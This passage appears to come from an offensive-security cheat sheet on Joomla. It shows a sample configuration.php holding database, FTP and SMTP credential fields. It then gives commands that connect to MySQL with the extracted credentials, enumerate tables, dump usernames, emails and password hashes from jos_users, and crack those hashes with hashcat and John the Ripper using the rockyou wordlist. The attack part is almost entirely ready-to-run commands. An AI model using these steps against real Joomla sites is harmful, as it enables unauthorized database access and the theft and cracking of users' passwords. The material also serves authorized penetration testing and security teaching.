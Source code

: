 **Standard configuration.php Layout:**
```php
<?php
class JConfig {
    public $host = 'localhost';
    public $user = 'joomla_user';
    public $password = 'database_password';
    public $db = 'joomla_database';
    public $dbprefix = 'jos_';
    public $live_site = '';
    public $secret = 'random_secret_key';
    public $gzip = '0';
    public $error_reporting = 'default';
    public $ftp_host = '';
    public $ftp_port = '21';
    public $ftp_user = '';
    public $ftp_pass = '';
    public $ftp_root = '';
    public $ftp_enable = '0';
    public $offset = 'UTC';
    public $mailer = 'mail';
    public $mailfrom = '';
    public $fromname = '';
    public $smtp_auth = '0';
    public $smtp_host = 'localhost';
    public $smtp_user = '';
    public $smtp_pass = '';
    public $smtp_port = '25';
}
?>
```

### Direct Database Attacks

#### MySQL Connection and Enumeration
```bash
# Connect using extracted credentials
mysql -h localhost -u joomla_user -p'database_password' joomla_database

# Enumerate database structure
SHOW TABLES;
DESCRIBE jos_users;
DESCRIBE jos_user_usergroup_map;

# Extract user information
SELECT id, name, username, email, password FROM jos_users;
SELECT user_id, group_id FROM jos_user_usergroup_map;
```

#### Password Hash Analysis
```bash
# Joomla password format: hash:salt
# Examples:
# $2y$10$92IXUNpkjO0rOQ5byMi.Ye4oKoEa3Ro9llC/.og/at2.uheWG/igi:salt
# 5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8:salt

# Crack hashes with hashcat
hashcat -m 400 -a 0 joomla_hashes.txt /usr/share/wordlists/rockyou.txt

# John the Ripper
john --format=joomla joomla_hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
